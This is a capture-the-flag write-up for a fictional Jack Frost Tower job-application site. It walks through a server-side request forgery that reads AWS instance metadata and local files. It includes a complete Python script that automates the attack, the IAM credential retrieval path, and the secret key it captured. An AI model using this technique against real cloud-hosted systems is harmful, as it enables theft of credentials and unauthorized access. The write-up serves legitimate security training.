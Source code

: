 # Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [apply website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how things behave. Depending on whether a URL is submitted or not the response will look different. For example, using the name *Alf the dyslexic elf* and an `http://169.254.169.254/latest` IMDS API endpoint as the report URL will result in a confirmation message containing additional text and a broken image.

=== ":material-web-off: Skipping the NLBI report URL"
    ![Leaving out the URL](../img/objectives/o10/no_imds_url.png){ class=border }

=== ":material-web-plus: Submitting an NLBI report URL"
    ![Submitting an IMDS URL](../img/objectives/o10/imds_url.png){ class=border }

Inspecting the network requests using the web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's `http://169.254.169.254/latest` IMDS API endpoint.

![Inspecting the image](../img/objectives/o10/inspecting_the_image.png)

Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep submitting the form via a web browser like we've done so far, use `curl` to both submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local `file://` URL. 

??? example "get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URL to retrieve
        if file:
            message = f"local file {file}"
            ssrf_url = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            ssrf_url = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': ssrf_url,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/<role_name>`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.

![Running the script](../img/objectives/o10/run_script.png)

!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX


!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced the SSRF vulnerability.

    ![PHP flaw](../img/objectives/o10/php_flaw.png)
